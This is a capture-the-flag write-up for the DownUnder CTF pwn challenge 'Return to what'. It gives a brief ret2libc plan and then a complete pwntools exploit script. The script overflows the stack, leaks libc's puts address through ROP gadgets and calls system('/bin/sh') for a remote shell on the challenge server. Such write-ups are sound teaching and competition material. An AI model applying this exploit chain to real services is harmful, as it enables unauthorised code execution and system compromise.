 ## DownUnder CTF: Return to what [pwn]
> This will show my friends!

#### Initial analysis of the security measures for the binary show that NX is enabled. With the aforementioned information, we can safely assume that the title of the challenge is a hint to what we should do: ret2libc. Our plan then is to find some gadgets, leak some addresses from the server, check what libc version it is with `libc.blukat.me`, then create a final rop chain to call system.

##### exploit.py
```python
from pwn import *

#:
p = remote('chal.duc.tf',30003)
print(p.recv())

#:
binary = ELF('./return-to-what', checksec = False)
puts_plt = binary.symbols['puts']
puts_got = binary.got['puts']
main_plt = binary.symbols['main']

#: Stage 1: Leak address of puts
pop_rdi = 0x000000000040122b
ret = 0x0000000000401016

exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(puts_got)
exploit += p64(puts_plt)
exploit += p64(main_plt)

p.sendline(exploit)
leak = int('0x' + hex(u64(p.recv()[:7].ljust(8, '\x00')))[3:], 16)
print('[i] LIBC leak: {}'.format(hex(leak)))

#: Stage 2: Call system('/bin/sh')
libc = ELF('libc6_2.27-3ubuntu1_amd64.so', checksec = False)
libc.address = leak - libc.symbols['puts']
print('[i] LIBC base: {}'.format(hex(libc.address)))

exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])

p.sendline(exploit)
p.interactive()
```
